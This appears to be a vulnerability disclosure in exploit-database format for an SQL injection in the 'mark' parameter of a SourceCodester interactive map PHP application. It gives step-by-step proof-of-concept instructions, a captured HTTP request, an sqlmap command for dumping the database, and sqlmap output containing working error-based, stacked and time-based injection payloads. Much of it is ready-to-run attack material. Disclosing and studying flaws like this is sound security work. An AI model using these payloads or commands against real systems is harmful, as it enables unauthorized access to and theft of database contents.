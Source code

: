 # Interactive Map App - SQL Injection
+ **Exploit Title:** Interactive Map App - SQL Injection
+ **Date:** 2024-10-05
+ **Exploit Author:** Burak Sevben
+ **Vendor Homepage:** https://www.sourcecodester.com/php/17354/interactive-map-markers-using-php-and-mysql-source-code.html
+ **Software Link:** https://www.sourcecodester.com/download-code?nid=17354&title=Interactive+Map+with+Marker+Using+PHP+and+MySQL+with+Source+Code
+ **Version:** 1.0
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** Reported, waiting for CVE number.

## Description:
İnteractive Map App  1.0 allows SQL Injection via the 'mark' parameter at "http://localhost/interactive-map-marker/endpoint/delete-mark.php?mark=7". 
Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to this address: "http://localhost/interactive-map-marker/"
+ Click the delete button in marked locations
+ Capture the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:
```
GET /interactive-map-marker/endpoint/delete-mark.php?mark=7 HTTP/1.1
Host: localhost
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
```

+ Use sqlmap to exploit. In sqlmap, use 'mark' parameter to dump the database.
```
sqlmap -r r.txt -p mark --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
---
Parameter: mark (GET)
    Type: error-based
    Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: mark=7' AND EXTRACTVALUE(9267,CONCAT(0x5c,0x716a7a6a71,(SELECT (ELT(9267=9267,1))),0x71767a7171))-- oYuy

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: mark=7';SELECT SLEEP(5)#

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: mark=7' AND (SELECT 3083 FROM (SELECT(SLEEP(5)))SmNM)-- VjjM
---
[18:53:21] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.58, PHP 8.2.12
back-end DBMS: MySQL >= 5.1 (MariaDB fork)
[18:53:22] [INFO] fetching current database
[18:53:22] [INFO] retrieved: 'map_mark_db'
current database: 'map_mark_db'
```
+ current database: `map_mark_db`

![Ekran görüntüsü 2024-05-15 035725](https://github.com/BurakSevben/CVEs/assets/117217689/97c0d0cf-85b6-458c-8489-4be4ee19a783)
